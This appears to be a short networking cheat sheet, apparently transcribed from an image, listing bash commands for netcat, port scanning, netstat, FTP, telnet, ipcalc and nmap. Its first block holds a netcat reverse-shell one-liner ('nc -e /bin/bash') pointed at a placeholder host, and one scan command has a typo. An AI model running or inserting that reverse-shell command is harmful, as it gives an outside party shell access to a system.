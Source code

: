 ```bash
nc -e /bin/bash <IP> <PORT>
```

Checking ports

```bash

# nc -v -n -z -w1 <DomainName> <StartPortNo-EndPortNo>
# For instance, in our example, we had the following:
nc -v -n -z w1 192.168.133.128 1-100

# Listen to UDP
nc -u <IP> <PORT>
```

## Net Stat

```bash
# Show all of the connections
netstat -na
netstat -tulpn

```

## FTP

You can transfer your files using FTP

```bash
ftp <IP_ADDRESS>

```

## Telnet

To connect to a TCP connection.

```bash
telnet <HOST> <PORT>
```

## Ipcalc

To calculate the ip address bits and patterns

```bash
ipcalc <IP_ADDRESS>
```

## N-Map

To discover once

```bash
nmap -sL ip.txt
```
